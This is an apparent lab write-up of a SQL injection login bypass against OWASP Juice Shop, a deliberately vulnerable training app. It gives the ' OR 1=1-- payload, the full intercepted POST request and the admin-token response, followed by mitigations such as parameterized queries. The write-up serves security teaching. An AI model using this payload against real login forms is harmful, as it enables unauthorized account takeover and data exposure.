





# SQL Injection Authentication Bypass - OWASP Juice Shop

**Target:** OWASP Juice Shop `http://192.168.178.80:3000`  
**Vulnerability:** SQL Injection (CWE-89)  
**Severity:** Critical  
**Date:** 2026-04-13  
**Author:** sebarino5

---

## Overview

OWASP Juice Shop is an intentionally vulnerable web application designed for security training. The login endpoint at `/rest/user/login` is vulnerable to SQL Injection, allowing an unauthenticated attacker to bypass authentication entirely and gain access to any user account, including the administrator account, without knowing a valid password.

---

## Reconnaissance

Initial enumeration of the application revealed a standard login form at `/#/login` accepting an email address and password. The endpoint submits credentials via a `POST` request to `/rest/user/login` with a JSON body. This pattern suggests the backend constructs a SQL query using unsanitized user input.

The login form was identified as a primary target due to:
- Direct user input being passed to the backend
- JSON-based API endpoint (potential for string injection)
- No visible input sanitization or CAPTCHA



---

## Vulnerability Analysis

The backend constructs an SQL query similar to the following:

```sql
SELECT * FROM Users WHERE email = '<INPUT>' AND password = '<INPUT>'
```

Since user input is concatenated directly into the query without parameterization, an attacker can inject SQL syntax to manipulate the query logic.

**Payload:**
```
' OR 1=1--
```

This payload:
1. Closes the email string with `'`
2. Appends `OR 1=1`, which always evaluates to true, matching every row
3. Comments out the remainder of the query with `--`, neutralizing the password check

The resulting query becomes:
```sql
SELECT * FROM Users WHERE email = '' OR 1=1--' AND password = '...'
```

Which is effectively:
```sql
SELECT * FROM Users WHERE email = '' OR 1=1
```

The database returns the first matching row, which is the admin account.

---

## Exploitation

### Step 1: Verify normal login fails

A login attempt with `test@test.com` / `test123` returns an error, confirming the endpoint validates credentials.



---

### Step 2: Inject the payload

The following HTTP request was intercepted via Burp Suite with the SQL injection payload in the `email` field:

```http
POST /rest/user/login HTTP/1.1
Host: 192.168.178.80:3000
Content-Type: application/json
Content-Length: 40

{
  "email": "' OR 1=1--",
  "password": "egal"
}
```



---

### Step 3: Observe the response

The server responds with HTTP 200 and returns a valid JWT authentication token along with the admin email address:

```json
{
  "authentication": {
    "token": "eyJhbGciOiJSUzI1NiJ9.eyJzdG...",
    "bid": 1,
    "umail": "admin@juice-sh.op"
  }
}
```

`bid: 1` and `umail: admin@juice-sh.op` confirm that the first user in the database, the administrator, was returned.



---

### Step 4: Access the admin panel

With the session established, navigating to `/#/administration` reveals the full admin panel including all registered user accounts.



---

## Impact

| Risk | Description |
|------|-------------|
| Authentication Bypass | Any user account can be accessed without credentials |
| Admin Account Takeover | Full administrative access to the application |
| Data Exposure | All registered user email addresses are visible |
| Privilege Escalation | Attacker gains highest privilege level from an unauthenticated state |
| Account Enumeration | Admin panel exposes every registered user account |

An attacker with admin access could modify orders, expose personal data, delete users, and abuse any privileged functionality the application exposes.

---

## Mitigation

### 1. Parameterized Queries (Primary Fix)

Replace string concatenation with prepared statements:

```javascript
// Vulnerable
db.query(`SELECT * FROM Users WHERE email = '${email}'`);

// Secure
db.query("SELECT * FROM Users WHERE email = ?", [email]);
```

### 2. ORM Usage

Use an ORM like Sequelize or TypeORM which handles query parameterization automatically. Fetch the user by email only, then verify the password against the stored hash:

```javascript
const user = await User.findOne({ where: { email } });
if (!user || !(await bcrypt.compare(password, user.passwordHash))) {
  return res.status(401).send("Invalid credentials");
}
```

### 3. Input Validation

Validate and sanitize all input at the application boundary:

```javascript
const emailRegex = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;
if (!emailRegex.test(email)) return res.status(400).send("Invalid input");
```

### 4. Least Privilege

The database user used by the application should be granted only the minimum privileges required on the specific tables it touches (typically `SELECT`, `INSERT`, `UPDATE` on application tables) and must not hold schema-level permissions such as `DROP`, `ALTER`, or `CREATE`. This limits the blast radius if injection still occurs.

### 5. Error Handling

Avoid leaking database error messages to the client. Log errors server-side and return generic messages to the user.

---

## Conclusion

The OWASP Juice Shop login endpoint is critically vulnerable to SQL Injection due to unsanitized user input being directly concatenated into SQL queries. Using the payload `' OR 1=1--`, an unauthenticated attacker can bypass authentication and gain full administrative access in a single request. The fix requires parameterized queries; all other controls are secondary. This vulnerability represents a textbook example of OWASP Top 10 **A03:2021 - Injection**.

---

*This write-up was created in a controlled lab environment using OWASP Juice Shop for educational purposes.*
